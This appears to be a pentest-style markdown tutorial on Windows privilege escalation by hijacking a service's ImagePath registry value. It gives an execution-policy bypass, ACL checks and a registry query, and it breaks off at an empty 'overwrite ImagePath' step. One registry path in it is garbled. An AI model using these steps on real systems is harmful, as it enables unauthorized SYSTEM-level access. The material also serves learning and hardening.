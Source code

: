 Modifying the windows **Registry** directly allows attackers to change the executable path(``ImagePath``) of a service. If the current user has write access to the registry key of a privileged service (e.g. runningas SYSTEM), this can lead to **local privilege escalation** 

---

### Target Registry key

```cmd
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<service_name>
```

* this key stores the configuration for the **windows Update** service (``wuauserv``)
* if write permission exist here, attacker can hijack the service binary path

---

### Step by Step Enumeratrion and Exploitation

#### 1. Launch PowerShell with Execution Policy Bypass


```cmd
powershell.exe -ep bypass
```

#### 2. Check Permission on the Registry key

```powershell
Get-Acl -Path hklm:\SYSTEM\CurrentControlSet\Services\<service_name> | fl
```

* This lists the Access Control List(ACL) for the service registry key, showing who can read/write to it.

#### 3. Manually inspect the Key Using Reg.exe

```cmd
reg query HKEY_LOCAL_MACHINE\SYSTECurrentControlSet\Services\<service_name>
```

* View all values to the service registry path including ``ImagePath``

#### 4. Overwrite ``ImagePath`` to point a malicious EXE

```cmd

```